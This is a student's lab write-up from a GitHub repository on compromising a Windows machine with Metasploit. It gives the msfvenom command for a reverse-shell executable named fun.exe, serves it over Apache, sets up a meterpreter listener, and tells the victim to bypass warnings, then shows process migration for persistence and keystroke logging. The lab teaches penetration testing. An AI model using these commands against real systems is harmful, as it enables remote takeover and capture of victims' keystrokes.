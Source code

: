 # Compromising-windows-using-Metasploit

## NAME:- ESWANTH KUMAR K
## REG NO: 212223040046
Compromising windows using Metasploit

# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:

Find the attackers ip address using ifconfig
![Screenshot 2024-10-09 085547](https://github.com/user-attachments/assets/99b0b242-a362-4d79-8191-cf1ef85e180f)
Create a malicious executable file fun.exe using msenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
#### OUTPUT
![Screenshot 2024-10-09 085632](https://github.com/user-attachments/assets/84fd2b37-b819-4075-abae-f8788d96cff2)

copy the fun.exe into the apache /var/www/html folder
![Screenshot 2024-10-09 085644](https://github.com/user-attachments/assets/d43e0241-2413-4cd1-9bb1-dabc3c61ae9a)

Start apache server
sudo systemctl apache2 start
![Screenshot 2024-10-09 085653](https://github.com/user-attachments/assets/7b9fd2df-c645-4a26-b1da-688a2891cbb0)

Check the status of apache2
![Screenshot 2024-10-09 085706](https://github.com/user-attachments/assets/f863dca1-2918-4155-829c-465e4ba57032)

Invoke msfconsole:
## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server
use multi/handler
![Screenshot 2024-10-09 085750](https://github.com/user-attachments/assets/e1dec2c0-9c2d-41b0-bfc6-c05616b2c78d)

set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.1.2/fun.exe
The file "fun.exe" downloads. 
![Screenshot 2024-10-09 085805](https://github.com/user-attachments/assets/35c636ed-5624-4623-aac5-e7f1bfee917b)

Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![Screenshot 2024-10-09 085815](https://github.com/user-attachments/assets/4b598374-f9b1-4f69-a559-37a6bc9653d8)
To see a list of processes, at the meterpreter > prompt, execute this command:
ps  ⇒ can see the fun.exe process running with pid 1156
![Screenshot 2024-10-09 085831](https://github.com/user-attachments/assets/906a9fa0-5f80-4416-b240-eadea5b0c54e)

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost.
To become more persistent, we'll migrate to a process that will last longer.
Let's migrate to the winlogon process.
At the meterpreter > prompt, execute this command:

migrate -N explorer.exe
at meterpreter > prompt, execute this command:
netstat
A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below.
Notice the "PID/Program name" value for this connection, which is redacted 
![Uploading Screenshot 2024-10-09 085846.png…]()

Post Exploitation
The target is now owned. Following are meterpreter commands for key capturing in the target machine
keyscan_start	Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![Screenshot 2024-10-09 085900](https://github.com/user-attachments/assets/4486eb39-404d-4f3c-a624-3ff490a588b1)
keyscan_dump	Shows the keystrokes captured so far
![Screenshot 2024-10-09 085915](https://github.com/user-attachments/assets/64540148-e668-4845-b4ac-17ca220ed8b2)

## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
